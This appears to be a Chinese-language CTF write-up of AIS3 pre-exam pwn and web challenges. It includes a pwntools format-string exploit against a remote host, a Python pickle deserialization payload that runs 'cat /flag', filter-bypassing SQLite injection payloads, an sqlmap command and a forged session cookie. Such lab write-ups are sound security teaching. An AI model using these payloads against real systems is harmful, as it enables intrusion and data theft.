沒辦法直接開，因為路徑是寫死的，[vim 作為二進位編輯器](https://r888800009.github.io/wiki/vim/#作為二進位編輯器)直接打補丁到 `"/tmp/flag\0"` 其 Hex 值為

```` plaintext
2f 74 6d 70 2f 66 6c 61 67 00
````

然後建立 flag 之後可以正常開啟

``` bash
touch /tmp/flag 
./death_crystal-patch
```

 觀察反編譯的結果，可以發現一個格式化字串漏洞，在執行 `printf` 之前，會先對輸入的內容進行過濾。



這裡觀察過濾器的內容，分為兩個部份對字串進行檢查，第一個區塊有任意吻合的字元不合法，後面則是遇到 `%` 之後檢查跳脫字元

這裡可以看到過濾了 `$\/^` 與`%c%p%n%h` ，如果傳入含有這些就會無法執行，如 `$` 就是格式化字串漏洞利用常用來讀取或寫入第某個堆疊上，`%c%n` 則是寫入數據時常用到的部份。 但是 `cpnh` 只過濾 `%` 後面一個，因此透過 `%ln`。

 

不過依然可以透過 `%lx.` 發現大概第六項就可以控制，並且發現第一項，在往後 12 項，打印
`%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx` 發現可以洩漏 binary 地址 (大概是某個 ret addr) ，可以把最後一個數值給列印出來為主程式在記憶體的位置。

gdb 往上或往下打印堆疊，看到先前的值與回傳地址，幫助檢查哪些地方可能洩漏記憶體。

``` plaintext
x/20x $sp-0x90
```

可以透過洩漏地址找出程式載入 flag 的位置 `DAT_0030206` ，計算好偏移量後把該地址放在記憶體第六個參數的位置，並且用 `%s` 顯示該位置指向的記憶體內容，但此方法還需要對參數位置做一些調整才可行。



由於採用 little endian 並且重定位的最高位元可能為 0 ，為 null 字元代表會被中斷，所以地址需要放置在最後面再存取，這時不再是第六個參數，找到第 10 個參數位置是乎恰當並且編寫 payload。

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf
import pwnlib.shellcraft

context.terminal = ['alacritty', '-e', 'sh', '-c']

c = remote('60.250.197.227', 10004)
#c = process('./death_crystal-patch')
e = ELF('./death_crystal-patch')


#init
context.os='linux'
context.arch='amd64'
#context.log_level ='debug'
#gdb.attach(c)

# 00100b20 41 57           PUSH       R15
ans = b'%lx' * 12
c.sendline(ans)
c.recvuntil('Foresee:\n', drop=True)
text_addr = int(c.recvline()[-15:], 16) - 0x0100b20
print(hex(text_addr))
flag_addr = 0x0302060 + text_addr

print(hex(flag_addr))

# make address
stack_dump = b'%lx' * (5 + 4) + b'%s'
ans = stack_dump.ljust(8 * (4), b'x') + p64(flag_addr)
c.sendline(ans)

c.interactive()
c.close()
```

稍微整理一下回傳內容得到 flag

``` plaintext
AIS3{FOrM@T_5TRin6_15_$o0o_pOw3rFul_And_eAsY}
```

### Morty school [未解開]

``` plaintext
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

ret2lib


https://stackoverflow.com/questions/10448254/how-to-use-gdb-with-ld-preload

注意環境變數 LD_PRELOAD 必須為絕對路徑

cp libc.so.6-cd7c1a035d24122798d97a47a10f6e2b71d58710aecfd392375f1aa9bdde164d /tmp/libc.so.6

LD_PRELOAD=/tmp/libc.so.6
set environment LD_PRELOAD /tmp/libc.so.6

好像這個部份不行，可能系統上有問題

直接用本機 libc 測試，地址輸出正常

透過劫持 __stack_chk_fail

參考
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/canary-zh/#canary_3

### Meeseeks box [未解開]

看起來很像 heap 噴濺

## pre-exam 題組 Web

### Snake

查看程式碼之後判斷可能為反序列相關的漏洞，判斷是否有辦法讓 data 同時符合 true 或 false，不過也可以用 `__reduce__` 去執行任意程式碼，而這個方法會在反序列化時執行。

直接編寫 shell 指令，讓他讀取 flag

``` python
import pickle, base64, traceback
import  subprocess
base64.b64encode(pickle.dumps({'test':12}))

class Test(object):
  def __reduce__(self):
       return (subprocess.check_output, (['cat', '/flag'],))

'https://snake.ais3.org/?data={}'.format(base64.b64encode(pickle.dumps(Test())).decode('utf-8'))
```

之後把產生的物件序列化之後傳入網頁

https://snake.ais3.org/?data=gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBS9mbGFnlGWFlFKULg==

得到 flag

``` plaintext
AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck.}
```

參考 

- [python安全之反序列化](https://r1dd1er.top/2019/05/21/python安全之反序列化/)

### Owl

查看錯誤訊息時，發現 or, and 與 space 會被消去，因此構造 `\t` tab 字元與 or 的 payload ，或者透過  `'ooroorrr	1=1;/*`  成功登入，查看網頁原始碼發現有程式碼 hint，讀取原始碼
https://turtowl.ais3.org/?source

可以發現原始碼做兩次過濾，構造一個 payload 透過 username  顯示 table 資訊

``` php
// Get rid of you
$bad = [' ', '/*', '*/', 'select', 'union', 'or', 'and', 'where', 'from', '--'];
$username = str_ireplace($bad, '', $username);
$username = str_ireplace($bad, '', $username);
```


可以構造一個空格 `/oorr**oorr/ `過濾好之後就會變成 `/**/`

查看版本號為  `3.27.2`

``` sqlite
'	unoorrion	SELoorrECT	'1',sqlite_version(),'2';
```

發現構造 payload 很找不到原因錯誤，把過濾器弄下來處理，檢查每個步驟發現語法中的 `form` 不斷被過濾。並且找到一個方法，混合 `-` 與 `or` 就不會被過濾掉。

之後構造好 payload 求出表名稱

``` SQL
'	unoorrion/oorr**oorr/SELoorrECT	'1',GROUP_CONCAT(name),'2'/oorr**oorr/FR-oorr-om/oorr**oorr/sqlite_master;
```

回傳值為

``` plaintext
users,sqlite_sequence,garbage
```

把 表結構弄出來

``` sql
'	unoorrion/oorr**oorr/SELoorrECT	'1',GROUP_CONCAT(sql),'2'/oorr**oorr/FR-oorr-om/oorr**oorr/sqlite_master;
```

回傳值

``` sqlite
CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT ),CREATE TABLE sqlite_sequence(name,seq),CREATE TABLE garbage ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, value TEXT )
```

看看 `garbage`

``` sqlite
'	unoorrion/oorr**oorr/SELoorrECT	'1',GROUP_CONCAT(value),'2'/oorr**oorr/FR-oorr-om/oorr**oorr/garbage;
```

回傳值包含 flag

``` plaintext
sqlmap is for child,who starts selling weeds,this is the flag: AIS3{4_ch1ld_15_4_curly_d1mpl3d_lun471c},Im watching you
```

``` plaintext
AIS3{4_ch1ld_15_4_curly_d1mpl3d_lun471c}
```

#### 參考

- [GROUP_CONCAT](https://www.sqlitetutorial.net/sqlite-group_concat/)

#### 其他失敗的解法


用`nonrecursivereplacement.py`

``` bash
sqlmap -u https://turtowl.ais3.org/  --dbms sqlite --method POST --level 5 --risk 3 --data "csrf_token=tNNZwk3puLx8X6dwiGGWfc34oiY81Mq7xsKTtDJb%2B94iwZx%2BZEP29cLSppq3Md%2FO5cqUp6uDpw61NW1%2FMoQ0hg%3D%3D&username=*&password=&submit=Login"  --random-agent --form --identify-waf nonrecursivereplacement
```

- https://github.com/sqlmapproject/sqlmap/issues/2889

- https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3

### Rhino

網頁滲透經常查看幾個常見的地方，比方說 `robots.txt`

https://rhino.ais3.org/robots.txt

發現 `node_modules` 代表使用 nodejs ，那有沒有其他關聯的東西？ 比方說 `package.json`

https://rhino.ais3.org/package.json

發現執行一個 `chill.js` 
https://rhino.ais3.org/chill.js

當中需要 `n` 取 boolean 為 true ，並且加上某個數值後與原先的數值相同。

``` javascript
  if (n && (n + 420) === 420)
    res.sendFile('/flag');
  else
    res.send('you are a sad person too');
```

並且看起來像 javascript 弱型別，讓他符合兩個條件。參見 [In JavaScript, why is “0” equal to false, but when tested by 'if' it is not false by itself?](https://stackoverflow.com/questions/7615214/in-javascript-why-is-0-equal-to-false-but-when-tested-by-if-it-is-not-fals)

不過測試之後沒辦法，因此改用浮點數嘗試，發現以下情況成立

```javascript
Boolean(0e-10)
1e-100 + 400 === 400
```

為了方便產生 `token` 把 `chill.js` 載下來，並且配置 `magic` 為 `1e-100`，這邊改過 `app.js`在本機執行

``` javascript
const express = require('express');
const session = require('cookie-session');

let app = express();

app.use(session({secret: 'I\'m watching you.'}));

app.use('/', express.static('./'));

app.get('/flag.txt', (req, res) => {
  res.setHeader('Content-Type', 'text/plain');

  req.session.magic = 1e-100;
  let n = req.session.magic;

  if (n && (n + 420) === 420)
    res.sendFile('/flag');
  else
    res.send('you are a sad person too');
});

app.get('*', function(req, res) {
  res.status(404).sendFile('404.html', {root: __dirname});
});

app.listen(8080, '0.0.0.0');
```

連上後之後得到 

``` plaintext
cookie
express:sess=eyJtYWdpYyI6MWUtMTAwfQ==; express:sess.sig=j6-UM1aQqL0kzUfwmUzpSQgJcV0
```

在透過 curl 傳送

``` bash
curl https://rhino.ais3.org/flag.txt --cookie 'express:sess=eyJtYWdpYyI6MWUtMTAwfQ==; express:sess.sig=j6-UM1aQqL0kzUfwmUzpSQgJcV0'
```

得到 flag

``` plaintext
AIS3{h4v3_y0u_r34d_7h3_rh1n0_b00k?}
```

